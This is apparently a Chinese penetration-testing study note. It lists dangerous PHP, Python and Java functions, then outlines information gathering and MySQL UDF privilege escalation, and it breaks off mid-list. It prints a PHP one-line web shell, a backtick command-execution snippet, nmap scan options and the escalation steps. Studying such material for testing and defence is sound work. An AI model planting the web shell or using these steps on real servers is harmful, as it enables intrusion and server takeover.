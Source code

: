 ### 常见危险函数

1. eval ()
   ``mixed eval ( string $code )``
   函数 eval() 语言结构是非常危险的， 因为它允许执行任意 PHP 代码。``<?php @eval($_POST['v']);?>``—— 常见的一句话木马。

2. assert()
   ``bool assert ( mixed $assertion [, string $description ] )``
   php语言危险函数

3. call_user_func()
   php函数把第一参数作为回调函数

4. array_map()
   php函数为数组的每个元素应用回调函数
   
5. \`\`反引号
   ```<?php echo `whoami`;?>```

6. exec
   python语言危险函数

7. 
   java中没有类似php中的eval函数，但是有反射机制，并有各种基于反射机制的表达式引擎，如：OGNL、SpEL等
### GETSHELL到UDF提权

#### 信息收集

打点技术 端口 ip 域名 邮箱 手机

端口扫描：
namp：nmap -sS -Pn -v -a

|     |                                        |
| --- | -------------------------------------- |
| -sS | 隐蔽扫描                                   |
| -Pn | 服务器禁止ping命令，跳过主机发现的过程进行端口扫描，-p0也要类似的效果 |
| -P0 | 免Ping 扫描，穿透防火墙，避免被防火墙发现                |
| -v  | 显示扫描过程                                 |
| -A  | 全面的系统扫描:包括打开操作系统探测、版本探测、脚本扫描、路径跟踪      |

#### getshell

1. 利用3306端口，获取mysql用户名 密码

2. 查询系统位数，32/64

   show variables like '%compile%';

3. 利用mysql-udf提权 用户自定义函数

   建立一张表，将dll16进制文件临时存放到表中。使用mysql < *.sql 或使用数据库连接工具。

4. 查询是否有导出权限

   show global variables like 'secure%';

5. 导出位置

   select version();

   mysql<5.0 任意

   5.0<=mysql<5.1 放在系统目录

   ```